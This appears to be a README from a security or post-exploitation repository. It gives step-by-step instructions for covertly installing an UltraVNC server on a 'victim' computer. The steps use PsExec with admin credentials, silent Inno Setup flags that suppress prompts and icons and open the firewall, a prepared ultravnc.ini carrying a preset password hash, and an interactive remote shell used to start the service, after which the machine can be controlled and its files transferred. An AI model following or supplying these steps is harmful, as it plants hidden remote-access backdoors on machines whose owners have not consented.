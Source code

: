 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

` psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

### Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

> [ultravnc]
> passwd=56B6ACA18D1BA76008
> passwd2=56B6ACA18D1BA76008

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

### Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

` psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

` net start uvnc_service

### Step 5: Restart the service

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")